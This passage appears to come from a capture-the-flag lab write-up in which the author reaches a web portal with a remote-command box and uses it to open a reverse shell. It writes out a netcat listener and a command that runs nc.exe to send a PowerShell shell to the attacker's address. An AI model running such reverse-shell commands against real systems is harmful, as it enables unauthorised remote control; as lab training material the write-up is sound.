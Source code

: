 This is successful, and we gain access to the web portal.

![App Access To Portal](./images/app-access-to-the-portal.png)

There is a section in the portal that allows us to run remote commands. It contains a simple HTML input box to write commands and any outputs after pressing run are relayed back to the web page. We could use this and go through the effort of trying to grab the flag this way. Or we can do what we did before and get a reverse shell by launching netcat with `nc -lnvp 9000` on our local machine and execute `C://nc.exe -e powershell.exe 10.10.14.31 9000` on the portal. This will give us a reverse shell which we can control from our terminal.

![App Reverse Shell](./images/app-reverse-shell.png)
